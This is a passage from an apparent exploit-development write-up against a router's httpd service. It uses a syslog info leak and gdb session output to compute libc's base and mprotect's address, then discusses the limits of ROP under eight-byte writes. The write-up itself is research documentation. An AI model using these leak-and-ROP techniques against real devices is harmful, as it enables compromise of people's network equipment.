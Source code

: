 syslog entry:
```
Mar 16 09:32:10 rc_service: httpd 9279:notify_rc start_apps_install AAA 0x405cbb1e A 
```

gdb:
```bash
(gdb) info proc mappings
process 9279
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
0x8000    0x69000    0x61000        0x0 /usr/sbin/httpd
0x70000    0x79000     0x9000    0x60000 /usr/sbin/httpd
0x79000   0x128000    0xaf000        0x0 [heap]
[...]
0x4056a000 0x405cf000    0x65000        0x0 /lib/libc.so.0
0x405cf000 0x405d7000     0x8000        0x0
0x405d7000 0x405d8000     0x1000    0x65000 /lib/libc.so.0
0x405d8000 0x405d9000     0x1000    0x66000 /lib/libc.so.0
0x405d9000 0x405de000     0x5000        0x0
```

After a bit of testing, rebooting, testing and rebooting, I found this leak was reliable. It stayed at stack position 29, and it contained an address 400158 bytes from libc's base. This makes it possible to reliably locate mprotect() in memory with "libcLeak - libcLeakOffset + memprotectOffset". 
```bash
(gdb) p 0x405cbb1e - 0x4056a000
$1 = 400158  # Leak's libc offset
(gdb) x mprotect
0x40580760 <mprotect>:  0xe92d4098
(gdb) p 0x40580760 - 0x4056a000
$2 = 92000   # mprotect() offset
(gdb) x 0x405cbb1e - 400158 + 92000
0x40580760 <mprotect>:  0xe92d4098
(gdb)
```

Once I tested this a bit, I began to automate the process by creating a small PoC which caused the payload's position and the address within libc to be leaked, then request the syslog to parse and calculate libc, memprotect and the payload's position.

## ROP woes

With a way to reliably calculate mprotect's location, the next step was just to find a good spot to write to. There was one major restriction though, the exploit only allowed writing eight bytes at a time, otherwise the data gets truncated and nothing after the truncation is written.

This meant finding a location in memory that doesn't get reallocated, nor gets mangled between requests. Initially, I didn't expect this to be much of an issue-- stack memory above where the payload landed remained unchanged between requests, so I chose a spot 0x1000 bytes less than the payload's position that I could reliably write to over multiple requests. 

I pretty quickly hit a wall with this tactic though, after finding no useable gadgets to get me $sp - 0x1000, or even close to it. The problem was, again, I could only write eight bytes at a time, and the only reliable memory I could find was farther from $sp than two "sub $sp" gadgets combined could get me. So, I could overwrite the function's return address with the first gadget, then move into the second, but those adjustments combined wouldn't get me to the beginning of my payload. 
